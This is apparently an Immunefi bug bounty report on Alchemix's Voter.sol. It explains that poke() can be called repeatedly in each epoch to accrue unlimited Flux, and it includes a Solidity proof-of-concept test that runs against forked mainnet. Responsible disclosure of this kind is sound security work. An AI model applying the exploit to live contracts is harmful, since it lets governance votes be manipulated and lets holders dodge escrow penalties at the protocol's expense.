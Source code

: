 
# Vulnerability in the poke function of Voting contract allows a veALCX holder to accrue unlimited amount of Flux

Submitted on May 17th 2024 at 22:57:04 UTC by @b0g0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31388

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- User can indefinitely accrue and mint FluxTokens

## Description
## Brief/Intro
The `poke()` function of `Voter.sol` introduces a vulnerability,  allowing a token holder to increase his Flux balance as much as he likes. Unrestricted supply of Flux gives unfair advantage to voter and allows him to influence the votes and escape penalty when withdrawing

## Vulnerability Details

`Voter.sol` has 3 main function to manage votes:
- `vote()` - used to vote for pools (called `ONCE` per epoch)
- `poke()`- updates the voting status of an existing vote (can be called `MANY` time per epoch)
-  `reset()`- resets the vote ( called `ONCE` per epoch)

Both `vote()` and `poke()` call the internal `_vote()` function, which resets the previous vote, creates a new vote based on the current voting power and accrues new Flux based on it:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412

```solidity
 function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
         // 1. Reset previous vote
        _reset(_tokenId);

        ....

        // 2. Accrue flux
        IFluxToken(FLUX).accrueFlux(_tokenId);

         // 3. calculate weights and create vote
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
         ....
    }
```
The important part to focus on here is that `Flux is accrued` `every` time `_vote()` is invoked.  The amount accrued is based on the token voting power. `FluxToken::accrueFlux()` looks like this:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188

```solidity
function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
The other important thing to note about FLUX is that it should accrue once `EACH EPOCH`

The docs explicitly state that :
> `The FLUX token is a special reward token that accrues to veALCX positions each epoch...`

Link -> https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/CONTRACTS.md#fluxtokensol

**And this is where the bug lies** - `Voter::poke()` can be called an unlimited amount of times each epoch. As a result `_vote()` will also be called, meaning Flux balances will get accrued on every call, practically enabling the token owner to source as much Flux as he wants.


## Impact Details
Having an unlimited supply of Flux gives the NFT owner the power to:
- boost all his votes, all the time, influencing the outcome of the votes for the pools - the bigger the value locked in an NFT, the more Flux it can steal and the greater influence it can have on the votes

- unlock his position at any time - effectively evading penalty and withdrawing much sooner than intended. This defeats the whole purpose of escrowing and causes harm to the protocol

## References

The `poke()` function:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195



## Proof of Concept
I've added a POC inside the currently existing `Voting.t.sol` test file:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol

You can run the POC like this:
`forge test --mt testPokeExploit  --fork-url https://eth.llamarpc.com --fork-block-number 17133822  -vvvv`

```solidity
function testPokeExploit() public {
        // Lock ALCX token for max period to get max voting power
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

        // No unclaimed flux token
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 0);

        // Impersonate token owner and call poke()
        hevm.startPrank(admin);
        voter.poke(tokenId);

        // Flux has been accrued
        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 997259164121562177);

        // call poke()and  accrue unclaimed Flux again
        voter.poke(tokenId);

        // Flux has increased x2
        uint256 unclaimedBalance_x2 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x2, unclaimedBalance * 2);

        // Flux has increased x3
        voter.poke(tokenId);
        uint256 unclaimedBalance_x3 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x3, unclaimedBalance * 3);

        // Flux has increased x4
        voter.poke(tokenId);
        uint256 unclaimedBalance_x4 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x4, unclaimedBalance * 4);
    }
```
